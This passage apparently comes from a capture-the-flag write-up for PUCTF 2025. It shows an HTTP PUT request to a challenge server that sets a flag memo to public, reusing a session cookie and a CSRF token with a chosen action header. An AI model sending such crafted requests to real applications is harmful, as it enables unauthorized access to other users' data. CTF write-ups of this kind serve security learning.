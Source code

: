 ![](https://github.com/siunam321/CTF-Writeups/blob/main/PUCTF-2025/images/Pasted%20image%2020250501200618.png)

Then, we can send the following PUT request to update the flag memo's visibility to "Public":

```http
PUT /api/memo/1 HTTP/1.1
Host: chal.polyuctf.com:41338
Cookie: connect.sid=s%3AeI7JyYW52vFowtuNvoFDyBchnFeif23R.SvP2%2FOYQLJqfpT47oDbnSwmWUOU8sxpeNR9CPJGBToI
Origin: http://chal.polyuctf.com:41338
X-CSRF-Token: b7c2a68373f0468de569ba6984a6c72a659e7a54ff3096d3398beed8d6ac5814
X-CSRF-Action: memo_all
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

visibility=1
```
